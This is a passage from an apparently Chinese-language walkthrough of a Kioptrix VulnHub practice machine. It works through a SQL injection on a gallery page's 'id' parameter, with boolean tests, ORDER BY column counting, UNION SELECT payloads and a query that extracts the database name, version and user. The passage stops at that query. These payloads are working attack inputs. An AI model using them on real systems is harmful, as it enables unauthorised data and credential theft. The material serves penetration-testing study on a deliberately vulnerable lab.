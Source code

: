 ![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-3\6.jpg)

那么暂且搁置，还有一个目录没有访问查看呢

访问`gallery`，这个界面的内容挺多

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-3\7.jpg)

尝试进行测试吧，发现点击`ligoat press room`时，其中的功能多了很多，并且出现`php`传参`id`，这个可以进行模糊测试，先以最简单的测试，看有无注入点

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-3\8.jpg)

# sql注入获取账户密码

尝试以`sql`注入的判断，以`'`进行闭合，发现出现报错，那么可能存在`sql`注入，并且数据库类型为`mysql`

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-3\9.jpg)

进一步测试，确定为数字型的注入

```html
?id=1 or 1=1--+
?id=1 and 1=1--+
?id=1 and 1=2--+
```

尝试构造语句，先测试联合查询是否可行，毕竟这个是比较省事的。

首先确定显示列数，可以借助`order by`

```html
?id=1 order by 6
```

这里的数字6是经过回显不同确定的

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-3\10.jpg)

确定列数为6，那么就构造联合查询

```html
?id=-1 union select 1,2,3,4,5,6 --+

//对于靶机来说，数字1-6代表是可以，不过大部分时候，就算真的存在sql注入，也是并非这样
//而是需要对应类型，所以大部分时候，也是以null进行代表，然后猜测每一个类型是字符还是数字
?id=-1 union select 1,null,null,null,null,null --+
```

可以看到，在`2,3`位是有回显的

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-3\11.jpg)

尝试构造语句，来获取当前数据库名称，数据库用户，数据库版本信息

```shell
?id=-1 union select 1,concat(database(),'|',version(),'|',user()),3,4,5,6 --+
```
